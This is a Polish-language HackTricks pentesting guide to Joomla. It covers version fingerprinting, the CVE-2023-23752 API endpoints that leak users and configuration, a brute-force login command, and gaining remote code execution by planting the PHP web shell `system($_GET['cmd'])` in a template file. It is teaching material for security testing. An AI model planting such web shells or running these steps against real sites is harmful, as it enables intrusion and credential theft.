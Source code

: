 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Statystyki Joomla

Joomla zbiera anonimowe [statystyki użycia](https://developer.joomla.org/about/stats.html), takie jak podział wersji Joomla, PHP oraz wersji baz danych i systemów operacyjnych serwerów używanych w instalacjach Joomla. Te dane można zapytać za pośrednictwem ich publicznego [API](https://developer.joomla.org/about/stats/api.html).
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Sprawdź **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Wersja

* W **/administrator/manifests/files/joomla.xml** możesz zobaczyć wersję.
* W **/language/en-GB/en-GB.xml** możesz uzyskać wersję Joomla.
* W **plugins/system/cache/cache.xml** możesz zobaczyć przybliżoną wersję.

### Automatyczny
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Metodologia Pentestingu Web to sekcja o skanerach CMS**](./#cms-scanners) które mogą skanować Joomla.

### Ujawnienie informacji bez uwierzytelnienia API:

Wersje od 4.0.0 do 4.2.7 są podatne na ujawnienie informacji bez uwierzytelnienia (CVE-2023-23752), które ujawnia dane uwierzytelniające i inne informacje.

* Użytkownicy: `http://<host>/api/v1/users?public=true`
* Plik konfiguracyjny: `http://<host>/api/index.php/v1/config/application?public=true`

**Moduł MSF**: `scanner/http/joomla_api_improper_access_checks` lub skrypt ruby: [51334](https://www.exploit-db.com/exploits/51334)

### Atak Brute-Force

Możesz użyć tego [skryptu](https://github.com/ajnik/joomla-bruteforce) aby spróbować przeprowadzić atak brute force na logowanie.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Jeśli udało ci się zdobyć **dane logowania administratora**, możesz **uzyskać RCE w jego obrębie**, dodając fragment **kod PHP**, aby uzyskać **RCE**. Możemy to zrobić, **dostosowując** **szablon**.

1. **Kliknij** na **`Templates`** w lewym dolnym rogu pod `Configuration`, aby otworzyć menu szablonów.
2. **Kliknij** na nazwę **szablonu**. Wybierzmy **`protostar`** w nagłówku kolumny `Template`. To przeniesie nas na stronę **`Templates: Customise`**.
3. Na koniec możesz kliknąć na stronę, aby otworzyć **źródło strony**. Wybierzmy stronę **`error.php`**. Dodamy **PHP one-liner, aby uzyskać wykonanie kodu** w następujący sposób:
1. **`system($_GET['cmd']);`**
4. **Zapisz i zamknij**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Od XSS do RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Skrypt do eksploatacji Joomla, który **podnosi XSS do RCE lub inne krytyczne luki**. Więcej informacji znajdziesz w [**tym poście**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Oferuje **wsparcie dla wersji Joomla 5.X.X, 4.X.X i 3.X.X oraz pozwala na:**
* _**Podniesienie uprawnień:**_ Tworzy użytkownika w Joomla.
* _**(RCE) Edycja wbudowanych szablonów:**_ Edytuje wbudowane szablony w Joomla.
* _**(Custom) Niestandardowe exploity:**_ Niestandardowe exploity dla wtyczek Joomla innych firm.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

